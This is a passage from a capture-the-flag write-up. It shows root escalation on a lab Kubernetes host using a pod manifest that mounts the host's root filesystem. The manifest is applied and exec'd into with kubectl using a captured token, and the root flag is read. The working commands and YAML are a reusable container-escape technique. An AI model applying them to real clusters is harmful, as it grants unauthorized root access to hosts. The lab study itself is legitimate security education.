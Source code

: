 Now, to get root, let's upload and apply a malicious configuration, containing an exploit to mount the root directory "/" into our new directory "pwned" and we also can get a root shell with this config!

```bash
╰─ lanfran@parrot ❯ cat pwned.yaml                                                                                                  ─╯
apiVersion: v1
kind: Pod
metadata:
  name: pwned
spec:
  volumes:
  - name: pwned
    hostPath:
      path: /
      type: Directory                                                                                                         
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: pwned
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /pwned
      name: pwned
```

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default apply -f pwned.yaml            ─╯
pod/pwned-pod created

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7f459c6889-8slv2   1/1     Running   2          147d
gitea-0                  1/1     Running   2          147d
pwned-pod                1/1     Running   0          44s
```
There is our new pod created, now just remains to connect to the pod and get the root flag!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default exec -it pwned-pod bash            ─╯
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.

root@pwned-pod:/# id
uid=0(root) gid=0(root) groups=0(root)
root@pwned-pod:/# cat /pwned/root/root.txt
flag{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!